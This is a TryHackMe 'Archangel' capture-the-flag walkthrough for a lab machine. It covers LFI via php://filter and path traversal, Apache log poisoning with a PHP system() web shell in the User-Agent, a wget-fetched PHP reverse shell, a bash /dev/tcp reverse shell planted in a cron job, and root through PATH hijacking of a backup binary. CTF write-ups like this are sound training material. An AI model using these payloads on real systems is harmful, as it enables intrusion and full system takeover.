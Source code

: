 # Archangel CTF [TryHackMe](https://tryhackme.com/room/archangel)

![Logo](./assets/archangel.jpeg)

---

```bash
export IP=10.10.62.137
```

---
## Index

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ nmap -p- $IP -T4 -oN nmap/all_ports.nmap
```

Ports:

```
22 ssh
80 http
```

Since we have a website we can explore, we can use gobuster to enumerate the pages.

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.jpg,.png,.html -o gobuster/dir_med.txt
```

Exploring the site, we notice that it has a hostname associated with it `mafialive.thm` which we can append to our `/etc/hosts` and accessing the site again from `mafialive.thm` shows us a development website.

Running gobuster _again_ on `mafialive.thm` we discover a `test.php` which appears to be asking for a LFI exploit.

![LFI](./assets/LFI.png)

![test page](./assets/test_php.png)

First we try checking `/etc/passwd` which is restricted, however, using php filter with b64, we can bypass this

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![test php code](./assets/test_php_code.png)

And decrypt this to get the second flag!

Now looking at the php source code, we can exploit it by using `..//..` or `.././..` to navigate through the file directories (and cheekily nab the user.txt flag since we know what homes exists from `/etc/passwd`)

---

### Getting access to the machine

Now we have to look into getting a reverse shell onto the machine.
Now admittedly, I did get stuck here and used the hint, which points to some sort of poisoning. Googling around for hints, I realised it was referring to apache2 log poisioning.
First we check we can access the logs from here

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log`

And since we can, we can now execute arbitary commands through it. Enabling us to create a reverse-shell by manipulating our request headers in BurpSuite (or using curl but BurpSuite lets us repeat requests easily in case we make a mistake)

Modifying our `User-Agent` to `<?php system($_GET['cmd']); ?>` and adding `&cmd` to our request

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=whoami
~~~

And when we access the site, we can see appended to the end of our log, the results of our command `www-data`

Now we could create a reverse using this but it feels a bit _clunky_, so instead, what'll we'll do is upload a php reverse shell (assuming its a linux machine).

Constructing our request
Our side:

```bash
$ (cd ~/reverse_shells/php; python3 -m http.server 8888) || netcat -lvnp 9999
```

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=wget%20http://<<IP>>:<<port>>/revshell.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
~~~

Now we can access the reverse shell from `http://mafialive.thm/revshell.php`

---

### Escalating Priviledges

Now that we have access as `www-data` we can enumerate the system to escalate priviledges. In order to speed this up, I also put linpeas onto the shell and run it.

I notice a file running in the crontab, which we could also edit, running by another use `archangel`. Modifying this file to create a new reverse-shell by adding this code:

![cronjob](./assets/cronjob.png)

```bash
$ bash -i >& /dev/tcp/IP/8888 0>&1
```

I noticed other write-ups created an ssh key for ease-of-access but I prefer this since it leaves less of a trace.

Now that we have access to more files, I notice a strange `backup` file owned by root but executable by anyone.

![backup](./assets/backup.png)

Running strings through the file, we notice something strange:

![relative path](./assets/cp_relative.png)

It is `PATH` exploitation time!

```bash
$ export PATH="$(pwd):$PATH"
```

And we can create a `cp` file which will give us root access

```bash
#!/bin/bash
/bin/bash -i
```

Remember to make it executable

```bash
$ chmod +x cp
$ ./backup
```

![PATH](./assets/path_exploit.png)

And we are _**complete!**_

![archangel](https://thumbs.dreamstime.com/b/archangel-michael-angel-divine-light-68373659.jpg)
